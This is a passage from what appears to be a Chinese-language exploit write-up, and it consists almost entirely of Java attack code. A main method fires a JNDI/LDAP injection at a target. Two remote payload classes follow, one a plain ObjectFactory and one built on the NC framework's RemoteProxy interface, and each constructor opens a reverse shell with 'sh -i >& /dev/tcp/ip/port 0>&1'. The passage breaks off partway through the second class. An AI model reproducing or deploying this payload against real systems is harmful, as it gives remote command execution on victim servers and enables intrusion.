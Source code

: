         public static void main(String[] args) {
            attack("http://target", "ldap://ip:port/classname");
        }
    }

> remote.java

    import javax.naming.Context;
    import javax.naming.Name;
    import javax.naming.spi.ObjectFactory;
    import java.io.Serializable;
    import java.util.Hashtable;

    public class remote implements ObjectFactory, Serializable {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
            return null;
        }
    }

> 当然也可以选择利用 nc 自带的类进行远程部署利用

    import nc.bs.framework.common.ComponentMetaVO;
    import nc.bs.framework.rmi.RemoteAddressSelector;
    import nc.bs.framework.rmi.RemoteProxy;

    public class remote implements RemoteProxy {

        public remote() {
            try{
                java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        @Override
        public Object getAttribute(String s) {
            return null;
        }

        @Override
        public void setAttribute(String s, Object o) {

        }

        @Override
        public ComponentMetaVO getComponentMetaVO() {
            return null;
        }
